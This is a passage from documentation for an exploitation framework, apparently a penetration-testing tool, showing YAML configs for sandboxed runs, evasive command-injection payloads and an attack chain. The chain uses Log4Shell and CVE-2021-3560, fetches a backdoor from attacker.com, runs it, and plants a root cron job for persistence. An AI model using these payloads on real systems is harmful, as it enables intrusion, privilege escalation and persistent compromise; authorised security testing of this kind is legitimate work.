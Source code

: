 ```yaml
  sandbox: "isolated"
  timeout: 30
  rollback: true
  memory_limit: "256M"
  network_restrictions: ["no_outbound"]
  
evidence:
  capture: ["screen", "traffic", "logs"]
  format: "html"
```

Run this configuration with:

```bash
sniper exploit --config log4shell.yaml
```

## Advanced Features

### Payload Customization

The SEF allows for detailed payload customization:

```yaml
payload:
  type: "command_injection"
  command: "id"
  encode: true
  evasion_techniques: ["url_encoding", "base64"]
  delivery_method: "http_header"
  header_name: "X-Forwarded-For"
  variants: 3
```

### Chained Exploits

You can define exploitation chains to simulate complex attack scenarios:

```yaml
exploitation_chain:
  - name: "initial_access"
    vulnerability: "CVE-2021-44228"
    payload: 
      type: "command_injection"
      command: "wget -O /tmp/backdoor http://attacker.com/backdoor"
      
  - name: "privilege_escalation"
    depends_on: "initial_access"
    vulnerability: "CVE-2021-3560"
    payload:
      type: "command_injection"
      command: "chmod +x /tmp/backdoor && /tmp/backdoor"
      
  - name: "persistence"
    depends_on: "privilege_escalation"
    vulnerability: "local_file_write"
    payload:
      type: "file_write"
      path: "/etc/cron.d/backdoor"
      content: "* * * * * root /tmp/backdoor"
```
